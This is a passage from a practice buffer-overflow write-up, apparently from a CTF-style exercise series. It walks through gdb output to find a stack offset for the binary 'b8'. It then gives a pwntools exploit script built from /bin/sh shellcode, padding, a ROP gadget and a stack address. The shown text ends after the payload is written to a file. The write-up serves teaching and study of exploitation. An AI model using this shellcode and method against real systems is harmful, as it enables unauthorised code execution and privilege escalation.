 One wall of text later...

```
Breakpoint 1, 0x080484b5 in the_horror ()
gdb-peda$ x/s $ebp-0x34
0xffffd004:	"75395128\n"
gdb-peda$ info frame
Stack level 0, frame at 0xffffd040:
 eip = 0x80484b5 in the_horror; saved eip = 0x8048523
 called by frame at 0xffffd060
 Arglist at 0xffffd038, args: 
 Locals at 0xffffd038, Previous frame's sp is 0xffffd040
 Saved registers:
  ebp at 0xffffd038, eip at 0xffffd03c
```

And now to fight some bunny...

```
>>> 0xffffd03c - 0xffffd004
56
>>> 56 - 34
22
```

So we will be using the same shellcode from b5, so we will only need 22 characters worth of padding. We also have the relative location of the input (which if you were to run the exploit in gdb with that address it would work just fine). Here are the address I tried before I reached the correct address.

```
0xffffd004
0xffffd014
0xffffd024
```

With all of the information we have collected, I present my exploit.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b8$ cat exploit.py 
#Import pwntools
from pwn import *

#Star the target Process
target = process("./b8")

#Read first line of text
print target.recvline()

#Store shellcode in variab;e
shellcode = "\x6a\x18\x58\xcd\x80\x50\x50\x5b\x59\x6a\x46\x58\xcd\x80\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x99\x31\xc9\xb0\x0b\xcd\x80"

#Construct padding
offset = "1"*22

#Declare ROP gadget
ROP = p32(0x08048316)

#Declare address of our shellcode
adr = p32(0xffffd024)

#Construct the payload
payload = shellcode + offset + ROP + adr

#Write the payload to a file for gdb purposes
p = open("in", "w")
p.write(payload)
```